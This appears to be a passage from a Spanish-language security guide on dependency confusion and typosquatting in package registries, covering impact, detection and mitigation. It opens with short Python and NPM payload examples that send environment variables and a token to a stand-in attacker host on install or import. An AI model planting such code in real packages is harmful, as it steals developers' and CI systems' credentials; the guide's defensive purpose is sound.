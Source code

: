 - Payload en `__init__.py`:

```python
import requests, os
def exfiltrate():
    requests.post('https://atacante.com/exfil', json=os.environ)
exfiltrate()
```

**NPM ejemplo**

```js
// index.js
require('https').get('https://atacante.com?token='+process.env.TOKEN)
// npm publish
```

---

## Explotación y Automatización

- Publicar variantes de nombre para monitorizar cuántos sistemas los instalan por error.
- Automatizar subida a diferentes managers y observar actividad (configurar callbacks/bot).
- Integrar con plataformas de monitorización de supply chain para detectar typosquatting.

---

## Impacto

- **RCE en CI/CD:** Ejecución remota durante el build/deploy.
- **Credential theft:** Exfiltración de API keys, secrets, secrets cloud, variables de entorno.
- **Persistencia:** Instalación de código malicioso oculto durante ciclos no supervisados.
- **Supply Chain Poisoning:** Apps confiadas, máquinas de clientes, repositorios infectados globalmente.

**Mapeo OWASP/CWE:** API Supply Chain, CWE-494 Download of Code Without Integrity Check, CWE-829 Inclusion of Functionality from Untrusted Control Sphere.

---

## Detección

- Logs de instalación de paquetes inesperados/no firmados.
- Alertas de beacon/callback en tráfico de red CI/CD.
- Uso de herramientas tipo Dependency Track, Sonatype Nexus Firewall.
- Revisar historial/reciente actividad de registros públicos y blogs de seguridad de proveedores.

---

## Mitigación

- Scoping/Namespacing estricto en dependencias internas (`@org/paquete`).
- Configurar el gestor para nunca consultar registros públicos salvo indicación explícita.
- Especificar la source del package (lockfiles bloqueados, repositorios internos).
- Monitorizar nombres similares públicos y alertar al crearlos.
- Automatizar secret scanning y desinfección tras detección abusiva.

---